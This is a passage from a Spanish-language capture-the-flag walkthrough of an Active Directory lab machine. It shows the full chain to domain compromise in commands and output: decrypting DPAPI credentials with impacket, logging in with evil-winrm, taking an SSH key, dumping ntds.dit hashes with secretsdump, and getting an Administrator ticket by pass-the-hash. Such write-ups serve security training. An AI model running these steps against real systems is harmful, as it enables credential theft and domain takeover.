drw-rw-rw-          0  Wed Jan 29 10:13:09 2025 Roaming
# cd Roaming
l# ls
drw-rw-rw-          0  Wed Jan 29 10:13:09 2025 .
drw-rw-rw-          0  Wed Jan 29 10:13:09 2025 ..
drw-rw-rw-          0  Wed Jan 29 10:13:09 2025 Adobe
drw-rw-rw-          0  Wed Jan 29 10:13:09 2025 Microsoft
# cd Microsoft
# ls
drw-rw-rw-          0  Wed Jan 29 10:13:09 2025 .
drw-rw-rw-          0  Wed Jan 29 10:13:09 2025 ..
drw-rw-rw-          0  Wed Jan 29 10:13:09 2025 Credentials
drw-rw-rw-          0  Wed Jan 29 10:13:09 2025 Crypto
drw-rw-rw-          0  Wed Jan 29 10:13:09 2025 Internet Explorer
drw-rw-rw-          0  Wed Jan 29 10:13:09 2025 Network
drw-rw-rw-          0  Wed Jan 29 10:13:09 2025 Protect
drw-rw-rw-          0  Wed Jan 29 10:13:09 2025 Spelling
drw-rw-rw-          0  Wed Jan 29 10:13:09 2025 SystemCertificates
drw-rw-rw-          0  Wed Jan 29 10:13:09 2025 Vault
drw-rw-rw-          0  Wed Jan 29 10:13:10 2025 Windows
# cd Credentials
ls
# ls
drw-rw-rw-          0  Wed Jan 29 10:13:09 2025 .
drw-rw-rw-          0  Wed Jan 29 10:13:09 2025 ..
-rw-rw-rw-        398  Wed Jan 29 08:13:50 2025 772275FAD58525253490A9B0039791D3
# get 772275FAD58525253490A9B0039791D3
~~~
Efectivamente se tiene uno, asi que se lo descarga, para que esto funcione tambien se necesita su masterkey, asi que tambien se la descarga.
~~~bash
# cd ..
# ls
drw-rw-rw-          0  Wed Jan 29 10:13:09 2025 .
drw-rw-rw-          0  Wed Jan 29 10:13:09 2025 ..
drw-rw-rw-          0  Wed Jan 29 10:13:09 2025 Credentials
drw-rw-rw-          0  Wed Jan 29 10:13:09 2025 Crypto
drw-rw-rw-          0  Wed Jan 29 10:13:09 2025 Internet Explorer
drw-rw-rw-          0  Wed Jan 29 10:13:09 2025 Network
drw-rw-rw-          0  Wed Jan 29 10:13:09 2025 Protect
drw-rw-rw-          0  Wed Jan 29 10:13:09 2025 Spelling
drw-rw-rw-          0  Wed Jan 29 10:13:09 2025 SystemCertificates
drw-rw-rw-          0  Wed Jan 29 10:13:09 2025 Vault
drw-rw-rw-          0  Wed Jan 29 10:13:10 2025 Windows
# cd Protect
# ls
drw-rw-rw-          0  Wed Jan 29 10:13:09 2025 .
drw-rw-rw-          0  Wed Jan 29 10:13:09 2025 ..
-rw-rw-rw-         24  Wed Jan 29 07:53:08 2025 CREDHIST
drw-rw-rw-          0  Wed Jan 29 10:13:09 2025 S-1-5-21-3927696377-1337352550-2781715495-1110
-rw-rw-rw-         76  Wed Jan 29 07:53:08 2025 SYNCHIST
# cd S-1-5-21-3927696377-1337352550-2781715495-1110
# ls
drw-rw-rw-          0  Wed Jan 29 10:13:09 2025 .
drw-rw-rw-          0  Wed Jan 29 10:13:09 2025 ..
-rw-rw-rw-        740  Wed Jan 29 08:09:25 2025 08949382-134f-4c63-b93c-ce52efc0aa88
-rw-rw-rw-        900  Wed Jan 29 07:53:08 2025 BK-VOLEUR
-rw-rw-rw-         24  Wed Jan 29 07:53:08 2025 Preferred
# get 08949382-134f-4c63-b93c-ce52efc0aa88
~~~
Asi que aprovechando el ataque, es muy simple, solamente se utiliza la herramienta impacket.
Primero se debe obtener la "decrypted key" de la masterkey que descargamos (no olvidar anotar tamboen su SID, esta es el mismo que el nombre de la carpeta donde se extrajo la masterkey)
~~~bash
impacket-dpapi masterkey -file 08949382-134f-4c63-b93c-ce52efc0aa88 -password 'NightT1meP1dg3on14' -sid S-1-5-21-3927696377-1337352550-2781715495-1110
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[MASTERKEYFILE]
Version     :        2 (2)
Guid        : 08949382-134f-4c63-b93c-ce52efc0aa88
Flags       :        0 (0)
Policy      :        0 (0)
MasterKeyLen: 00000088 (136)
BackupKeyLen: 00000068 (104)
CredHistLen : 00000000 (0)
DomainKeyLen: 00000174 (372)

Decrypted key with User Key (MD4 protected)
Decrypted key: 0xd2832547d1d5e0a01ef271ede2d299248d1cb0320061fd5355fea2907f9cf879d10c9f329c77c4fd0b9bf83a9e240ce2b8a9dfb92a0d15969ccae6f550650a83
~~~
Con la decrypted key, ya se puede obtener las credenciales que se encuentren.
~~~bash
impacket-dpapi credential -file 772275FAD58525253490A9B0039791D3 -key 0xd2832547d1d5e0a01ef271ede2d299248d1cb0320061fd5355fea2907f9cf879d10c9f329c77c4fd0b9bf83a9e240ce2b8a9dfb92a0d15969ccae6f550650a83
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[CREDENTIAL]
LastWritten : 2025-01-29 12:55:19
Flags       : 0x00000030 (CRED_FLAGS_REQUIRE_CONFIRMATION|CRED_FLAGS_WILDCARD_MATCH)
Persist     : 0x00000003 (CRED_PERSIST_ENTERPRISE)
Type        : 0x00000002 (CRED_TYPE_DOMAIN_PASSWORD)
Target      : Domain:target=Jezzas_Account
Description : 
Unknown     : 
Username    : jeremy.combs
Unknown     : qT3V9pLXyN7W4m
~~~
Se encontraron las credenciales de "jeremy.combs", viendo bloodhound se puede ver que este si tiene acceso a winrm, asi que se entra en el.
~~~bash
evil-winrm -i dc.voleur.htb -r voleur.htb   
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\jeremy.combs\Documents>
~~~

### Explotación base de datos NTDS
Realizando una pequeña enumeración, se encuentra el directorio donde se encuentran alojadas las carpetas compartidas.
~~~bash
*Evil-WinRM* PS C:\> ls

    Directory: C:\

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----         1/29/2025   1:10 AM                Finance
d-----         1/29/2025   1:10 AM                HR
d-----         5/29/2025   3:07 PM                inetpub
d-----         1/29/2025   1:10 AM                IT
d-----          5/8/2021   1:20 AM                PerfLogs
d-r---         7/24/2025   1:10 PM                Program Files
d-----         1/30/2025   5:53 AM                Program Files (x86)
d-r---         1/30/2025   3:38 AM                Users
d-----          6/5/2025  12:53 PM                Windows
~~~
Entrando en ellas, se encontro la ultima a la que no se obtuvo acceso alguno, es la de "Third-Line Support", asi que entrando en ella,
~~~bash
*Evil-WinRM* PS C:\IT> ls

    Directory: C:\IT

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----         1/29/2025   1:40 AM                First-Line Support
d-----         1/29/2025   7:13 AM                Second-Line Support
d-----         1/30/2025   8:11 AM                Third-Line Support

*Evil-WinRM* PS C:\IT> cd 'Third-Line Support'
*Evil-WinRM* PS C:\IT\Third-Line Support> ls

    Directory: C:\IT\Third-Line Support

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----         1/30/2025   8:11 AM                Backups
-a----         1/30/2025   8:10 AM           2602 id_rsa
-a----         1/30/2025   8:07 AM            186 Note.txt.txt
~~~
Se vieron tres archivos, los dos ultimos se descargaron sin problema alguno, pero el primero no se puedo por problemas de permisos.
~~~bash
*Evil-WinRM* PS C:\IT\Third-Line Support> download Note.txt.txt
                                        
Info: Downloading C:\IT\Third-Line Support\Note.txt.txt to Note.txt.txt
                                        
Info: Download successful!
*Evil-WinRM* PS C:\IT\Third-Line Support> download id_rsa
                                        
Info: Downloading C:\IT\Third-Line Support\id_rsa to id_rsa
                                        
Info: Download successful!
*Evil-WinRM* PS C:\IT\Third-Line Support> cd backups
*Evil-WinRM* PS C:\IT\Third-Line Support\backups> ls
Access to the path 'C:\IT\Third-Line Support\backups' is denied.
At line:1 char:1
+ ls
+ ~~
    + CategoryInfo          : PermissionDenied: (C:\IT\Third-Line Support\backups:String) [Get-ChildItem], UnauthorizedAccessException
    + FullyQualifiedErrorId : DirUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetChildItemCommand
~~~
Sin tomarle mucha importancia, empeze viendo el contenido de cada uno, se ve in id_rsa (posiblemente para el servicio ssh que vimos al enumerar servicios) y una nota.
~~~basj
cat Note.txt.txt 
Jeremy,

I've had enough of Windows Backup! I've part configured WSL to see if we can utilize any of the backup tools from Linux.

Please see what you can set up.

Thanks,

Admin
~~~
La nota parece hablar de un backup en un entorno linux (posiblemente se el archivo que no se pudo descargar).
Asi que mi logica dice que se puede entrar por ssh para encontrar algun backup.
Intentando entrar con el usuarip jeremy, este no tiene acceso, asi que revisando el archivo del principio, se ve un servicio "svc_backup" con una nota.

Por lo que posiblemente este sea el usuario, asi que probando (sin antes darle permisos 600 al id_rsa).
~~~bash
ssh -i id_rsa svc_backup@10.10.11.76 -p 2222
Welcome to Ubuntu 20.04 LTS (GNU/Linux 4.4.0-20348-Microsoft x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri Nov  7 20:54:03 PST 2025

  System load:    0.52      Processes:             9
  Usage of /home: unknown   Users logged in:       0
  Memory usage:   33%       IPv4 address for eth0: 10.10.11.76
  Swap usage:     0%

363 updates can be installed immediately.
257 of these updates are security updates.
To see these additional updates run: apt list --upgradable

The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Thu Jan 30 04:26:24 2025 from 127.0.0.1
 * Starting OpenBSD Secure Shell server sshd                                                                                                         [ OK ] 
svc_backup@DC:~$ ls
svc_backup@DC:~$ pwd
/home/svc_backup
~~~
Ahora, tengo entendido que debe existir algun backup dentro que me puede ser de ayuda en algo, asi que revisando los directorios, encontre que comparte un directorio de la raiz de windows.
~~~bash
vc_backup@DC:/$ cd mnt/
svc_backup@DC:/mnt$ ls
c
svc_backup@DC:/mnt$ ls -la
total 0
drwxr-xr-x 1 root       root       4096 Jan 30  2025 .
drwxr-xr-x 1 root       root       4096 Jan 30  2025 ..
drwxrwxrwx 1 svc_backup svc_backup 4096 Jul 24 13:09 c
svc_backup@DC:/mnt$ cd c/
svc_backup@DC:/mnt/c$ ls
'$Recycle.Bin'  'Documents and Settings'   HR        'Program Files'         Recovery                     Windows
'$WinREAgent'    DumpStack.log.tmp         IT        'Program Files (x86)'  'System Volume Information'   inetpub
 Config.Msi      Finance                   PerfLogs   ProgramData            Users                        pagefile.sys
~~~
Recordando que tenia un "backup" dentro de IT, talvez con este usuario tenga acceso a ella.
~~~bash
svc_backup@DC:/mnt/c$ cd IT
svc_backup@DC:/mnt/c/IT$ ls
'First-Line Support'  'Second-Line Support'  'Third-Line Support'
svc_backup@DC:/mnt/c/IT$ cd 'Third-Line Support'
svc_backup@DC:/mnt/c/IT/Third-Line Support$ ls
Backups  Note.txt.txt  id_rsa
svc_backup@DC:/mnt/c/IT/Third-Line Support$ ls -la
total 4
dr-xr-xr-x 1 svc_backup svc_backup 4096 Jan 30  2025 .
dr-xr-xr-x 1 svc_backup svc_backup 4096 Jan 29  2025 ..
drwxrwxrwx 1 svc_backup svc_backup 4096 Jan 30  2025 Backups
-r-xr-xr-x 1 svc_backup svc_backup  186 Jan 30  2025 Note.txt.txt
-r-xr-xr-x 1 svc_backup svc_backup 2602 Jan 30  2025 id_rsa
svc_backup@DC:/mnt/c/IT/Third-Line Support$ cd Backups
svc_backup@DC:/mnt/c/IT/Third-Line Support/Backups$ ls
'Active Directory'   registry
svc_backup@DC:/mnt/c/IT/Third-Line Support/Backups$ cd registry/
svc_backup@DC:/mnt/c/IT/Third-Line Support/Backups/registry$ ls
SECURITY  SYSTEM
svc_backup@DC:/mnt/c/IT/Third-Line Support/Backups/registry$ cd ..
svc_backup@DC:/mnt/c/IT/Third-Line Support/Backups$ cd Active\ Directory/
svc_backup@DC:/mnt/c/IT/Third-Line Support/Backups/Active Directory$ ls
ntds.dit  ntds.jfm
~~~
Efectivamente tengo acceso, al parecer dentro de esto se puede encontrar un archivo NTDS.dit, esto se puede utilizar para dumpear todas las credenciales de los usuarios del dominio, tambien se ve el archivo "SYSTEM" que van de la mano, asi que procedo a descargarlos a mi maquina atacante (Esto lo puede hacer de cualquier manera, yo abri un servidor python para subir archivos)
Con la base de datos NTDS en el sistema, se dumpea todo.
~~~bash
impacket-secretsdump -ntds ntds.dit -system SYSTEM LOCAL 
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0xbbdd1a32433b87bcc9b875321b883d2d
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 898238e1ccd2ac0016a18c53f4569f40
[*] Reading and decrypting hashes from ntds.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e65<SNIP>59ad2:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DC$:1000:aad3b435b51404eeaad3b435b51404ee:d5db085d469e3181935d311b72634d77:::
<SNIP>
[*] Cleaning up..
~~~
Obteniendo el has NTLM de administrator.

---
## Root Flag

> **Valor de la Flag:** `<Averiguelo usted mismo>`

Asi que ahora solo es cosa de obtener su ticket tgt y e iniciar sesion por winrm.
~~~bash
impacket-getTGT -dc-ip 10.10.11.76 voleur.htb/administrator -hashes ":e65<SNIP>ad2"
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in administrator.ccache

export KRB5CCNAME=$(pwd)/administrator.ccache
~~~

~~~bash
evil-winrm -i dc.voleur.htb -r voleur.htb
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ..
*Evil-WinRM* PS C:\Users\Administrator\desktop> ls

    Directory: C:\Users\Administrator\desktop

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         1/29/2025   1:12 AM           2308 Microsoft Edge.lnk
-ar---         11/7/2025   1:12 PM             34 root.txt

*Evil-WinRM* PS C:\Users\Administrator\desktop> type root.txt
<Encuentre su propia root flag>
~~~

🎉 Sistema completamente comprometido - Root obtenido

